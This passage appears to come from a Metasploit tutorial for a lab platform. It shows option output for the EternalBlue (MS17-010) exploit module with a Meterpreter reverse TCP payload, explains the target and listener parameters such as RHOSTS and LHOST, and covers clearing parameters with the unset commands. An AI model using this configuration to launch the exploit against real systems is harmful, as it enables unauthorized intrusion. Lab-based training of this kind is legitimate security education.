 
Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.44.70      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

Once you have set a parameter, you can use the show options command to check the value was set correctly.


Parameters you will often use are:

- ```RHOSTS```: “Remote host”, the IP address of the target system. A single IP address or a network range can be set. This will support the CIDR (Classless Inter-Domain Routing) notation (/24, /16, etc.) or a network range (10.10.10.x – 10.10.10.y). You can also use a file where targets are listed, one target per line using file:/path/of/the/target_file.txt, as you can see below.

![image](/assets/img/Metasploit-intro02.png)

- ```RPORT```: “Remote port”, the port on the target system the vulnerable application is running on.

- ```PAYLOAD```: The payload you will use with the exploit.
LHOST: “Localhost”, the attacking machine (your AttackBox or Kali Linux) IP address.

- ```LPORT```: “Local port”, the port you will use for the reverse shell to connect back to. This is a port on your attacking machine, and you can set it to any port not used by any other application.

- ```SESSION```: Each connection established to the target system using Metasploit will have a session ID. You will use this with post-exploitation modules that will connect to the target system using an existing connection.


You can override any set parameter using the set command again with a different value. 

You can also clear any parameter value using the command
```
unset
``` 
Or clear all set parameters with the command.
```
unset all
```
#### The unset all command
```
msf6 exploit(windows/smb/ms17_010_eternalblue) > unset all
Flushing datastore...
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
